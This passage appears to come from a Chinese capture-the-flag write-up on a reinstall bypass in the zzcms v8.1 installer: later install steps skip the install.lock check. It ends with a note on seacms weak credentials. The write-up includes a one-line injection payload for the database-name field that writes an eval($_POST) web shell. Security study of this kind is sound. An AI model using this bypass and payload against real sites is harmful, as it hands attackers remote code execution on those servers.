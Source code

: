 它的逻辑是以 POST 的 step 参数提交访问步骤，用 switch 语句从第一步开始 访问 `/install/step_1.php` 和 控制 之后的 step

`step_1.php` 重要代码如下：

```php
<?php
if(file_exists("install.lock")){
echo "<div style='padding:30px;'>安装向导已运行安装过，如需重安装，请删除 /install/install.lock 文件</div>";
}else{
?>
```

它是通过检查 `install.lock` 是否存在 来判断是否安装过

但是 从 `step_2.php` 到 `step_6.php` 都没有检查`install.lock` 是否存在，而是直接用之前 POST 上传入的 $step 参数来控制访问，那么就会出现直接绕过 `step_1.php`  的检查 而直接 访问后面的步骤达到绕过重装

```php
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?>
```

#### 复现

[zzcms v8.1审计-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2204326)

后续配合创建数据库名时候的代码注入，拼接字符串写shell，与web480相似

```
cpanda;-- -');eval($_POST[123]);//'
```

## web485

`seacms 12.8`，本地安装时，知道账号密码为弱口令

<img src=".\图片\Snipaste_2023-08-10_11-51-02.png" alt="Snipaste_2023-08-10_11-51-02" style="zoom:50%;" />
